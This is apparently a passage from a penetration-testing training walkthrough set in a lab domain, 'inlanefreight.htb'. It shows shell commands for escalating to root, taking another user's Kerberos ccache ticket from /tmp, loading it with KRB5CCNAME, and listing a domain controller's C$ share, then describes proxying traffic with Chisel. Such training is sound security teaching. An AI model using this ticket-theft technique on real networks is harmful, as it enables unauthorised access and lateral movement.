 Then obtain more hashes.

---

## Abusing Keytab ccache

#### Privilege Escalation to Root

```shell-session
ssh svc_workstations@inlanefreight.htb@10.129.204.23 -p 2222
```

```shell-session
sudo su
```

#### Looking for ccache Files

```shell-session
ls -la /tmp
```

#### Identifying Group Membership with the id Command

```shell-session
id julio@inlanefreight.htb
```

#### Importing the ccache File into our Current Session

```shell-session
klist
```

```shell-session
cp /tmp/krb5cc_647401106_I8I133 .
```

```shell-session
 export KRB5CCNAME=/root/krb5cc_647401106_I8I133
```

```shell-session
klist
```
```shell-session
smbclient //dc01/C$ -k -c ls -no-pass
```

## Using Linux Attack Tools with Kerberos

our attack host doesn't have a connection to the `KDC/Domain Controller`, and we can't use the Domain Controller for name resolution. To use Kerberos, we need to proxy our traffic via `MS01` with a tool such as [Chisel](https://github.com/jpillora/chisel) and [Proxychains](https://github.com/haad/proxychains) and edit the `/etc/hosts` file to hardcode IP addresses of the domain and the machines we want to attack.

#### Host File Modified
